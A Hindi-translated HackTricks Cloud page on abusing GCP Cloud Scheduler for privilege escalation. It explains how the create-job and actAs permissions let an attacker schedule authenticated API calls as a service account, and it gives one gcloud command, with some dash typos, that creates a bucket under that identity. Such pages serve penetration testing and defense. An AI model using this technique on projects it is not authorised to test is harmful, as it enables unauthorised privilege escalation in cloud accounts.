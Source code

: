 # GCP - Cloudscheduler Privesc

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में** देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## cloudscheduler

### `cloudscheduler.jobs.create`, `iam.serviceAccounts.actAs`, (`cloudscheduler.locations.list`)

इन अनुमतियों वाले एक हमलावर **Cloud Scheduler** का दुरुपयोग कर सकता है **क्रॉन जॉब्स को एक विशिष्ट सेवा खाता के रूप में प्रमाणित करना**। HTTP POST अनुरोध बनाकर, हमलावर क्रियाएँ अनुसूचित कर सकता है, जैसे कि एक नया स्टोरेज बकेट बनाना, सेवा खाते की पहचान के तहत क्रियाएँ करने के लिए। यह विधि **स्केज्यूलर की क्षमता का लाभ उठाती है `*.googleapis.com` अंत्यों को लक्षित करने और अनुरोधों को प्रमाणित करने** की, जिससे हमलावर को सरल `gcloud` कमांड का उपयोग करके सीधे Google API अंत्यों को संशोधित करने की अनुमति मिलती है।

नया जॉब बनाने के लिए उदाहरण जो हमारे पक्ष में एक विशिष्ट सेवा खाता का उपयोग करेगा एक नया स्टोरेज बकेट बनाने के लिए, हम निम्नलिखित कमांड चला सकते हैं: 

{% code overflow="wrap" %}
```bash
gcloud scheduler jobs create http test –schedule='* * * * *' –uri='https://storage.googleapis.com/storage/v1/b?project=<PROJECT-ID>' --message-body "{'name':'new-bucket-name'}" --oauth-service-account-email 111111111111-compute@developer.gserviceaccount.com –headers Content-Type=application/json
```
{% endcode %}

**विशेषाधिकारों को उन्नत करने के लिए, एक हमलावर केवल एक HTTP अनुरोध तैयार करता है जो चाहे गए API को लक्षित करता है, निर्दिष्ट सेवा खाता का अनुकरण करता है**

## संदर्भ

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
